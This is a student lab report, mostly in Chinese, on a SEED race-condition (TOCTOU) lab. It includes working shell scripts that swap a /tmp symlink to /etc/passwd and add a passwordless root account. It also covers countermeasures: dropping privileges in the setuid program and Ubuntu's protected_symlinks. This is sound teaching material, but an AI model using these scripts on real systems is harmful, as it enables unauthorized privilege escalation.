









# Race Condition Vulnerability Lab

> 1120162015 李博

## Task0: Environment setup

首先进行如下环境的设置。



## Task1: Choosing Our Target

尝试手动添加`test:U6aMy0wojraho:0:0:test:/root:/bin/bash`至`/etc/passwd`。

结果如下，可以看到用户test的密码为空即可登录，并且权限为root。



## Task 2: Launching the Race Condition Attack

编写shell脚本如下。

exp_check.sh

```shell
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
	./vulp < input
	new=$($CHECK_FILE)
done
echo "STOP... Attack successfully!"
```

exp_symbolic.sh

```shell
#!/bin/bash

while :
do
	ln -sf /home/seed/Desktop/Lab06/input /tmp/XYZ
	
	ln -sf /etc/passwd /tmp/XYZ
done
```

执行结果如下



尝试执行`su test`切换用户，结果如下，攻击成功。



## Task 3: Countermeasure: Applying the Principle of Least Privilege

修改`vulp.c`为如下内容。

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
	uid_t real_uid = getuid();
	uid_t e_uid = geteuid();	

    /* get user input */
    scanf("%50s", buffer );
    setuid(real_uid);	   // 1. set real uid.
    if(!access(fn, W_OK)){

        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    setuid(e_uid);         // 2. if need euid then set effective uid.
    return 0;
}
```

再次执行攻击脚本`exp_check.sh`和`exp_symbolic.sh`，结果如下。



可以看到无法攻击成功，并且过程中还出现了`Segmentation fault`。

因为在程序进行读写过程中，其用户权限被降至`seed`，而该用户并没有写`/etc/passwd`的权限，故攻击失败。

## Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme

设置`sudo sysctl -w fs.protected_symlinks=1`后结果如下图，可以看到有大量的段错误出现。



### (1) How does this protection scheme work?  

[原理](https://lore.kernel.org/patchwork/patch/311492/)



该机制的原理在于check符号链接的uid与执行符号链接时的程序的uid是否匹配。

当程序运行时，由于setuid机制拥有的权限为root，而符号链接`/tmp/XYZ`的owner是seed，如下图。

两者不匹配，故出现错误。



为验证上述想法，将程序设置为`sudo chmod 755 vulp`，非setuid，如下图。



可以看到，当设置程序权限为`755`时，可以正常运行，而当程序权限为`4755`即setuid时，运行出现段错误。

### (2) What are the limitations of this scheme?
